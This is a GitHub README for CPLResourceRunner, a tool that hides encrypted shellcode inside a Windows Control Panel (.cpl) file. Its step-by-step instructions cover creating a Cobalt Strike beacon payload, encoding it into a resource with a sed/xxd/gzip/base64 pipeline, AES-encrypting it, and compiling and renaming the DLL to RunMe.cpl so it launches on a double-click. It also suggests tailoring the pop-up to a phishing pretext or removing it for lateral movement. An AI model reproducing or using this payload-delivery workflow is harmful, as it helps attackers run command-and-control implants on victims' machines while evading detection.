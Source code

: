 # CPLResourceRunner

Added some basic AES encrypt/decrypt functionality

0. Replace `changeme` in Class1.cs to a different password
1. Compile encrypt.cs and run it on your shellcode, along with your password
  * `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe .\encrypt.cs`
  * `encrypt.exe shell.bin "changme"`
2. Copy the output encrypted.txt to Resources.txt in the repo
3. Compile for x86, rename `CPLResourceRunner.dll` to `RunMe.cpl`


## Original

Create Payload "RAW" fully-staged (S) (x86) in cobalt strike

Run ConvertShellcode.py on your beacon.bin file

Run the following command against the "shellcode.txt" file to get a blob for the cpl resource.

cat shellcode.txt |sed 's/[, ]//g; s/0x//g;' |tr -d '\n' |xxd -p -r |gzip -c |base64 -w 0 > b64shellcode.txt

Copy b64shellcode.txt contents into Resources.txt in this project.

Compile to x86 and copy CPLResourceRunner.dll to RunMe.cpl

Will launch with double click or whatever method you use to execute files.

For asthetics, change the contents of the MsgBox to suit your pretext or remove for lateral movement usage.

